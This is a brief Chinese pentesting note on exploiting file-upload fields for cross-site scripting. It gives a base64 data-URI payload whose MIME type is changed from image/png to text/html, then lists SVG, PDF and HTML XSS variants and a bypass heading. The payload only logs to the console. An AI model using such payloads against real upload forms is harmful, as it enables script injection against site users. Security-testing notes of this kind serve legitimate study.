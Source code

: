 # 文件上传处

## xss

若文件上传处是这种格式

```html
data:image/png;base64,PGltZyBzcmM9ImhhY2suanBnIiBvbmVycm9yPSJjb25zb2xlLmxvZygnaGFja2VyJykiPg==
```

则可以修改为以下形式造成 xss

```
data:text/html;base64,PGltZyBzcmM9ImhhY2suanBnIiBvbmVycm9yPSJjb25zb2xlLmxvZygnaGFja2VyJykiPg==
```

还有 svg xss,pdf xss,html xss

pdf xss 仅适用于 Chromium 浏览器

## 绕过

流量加密
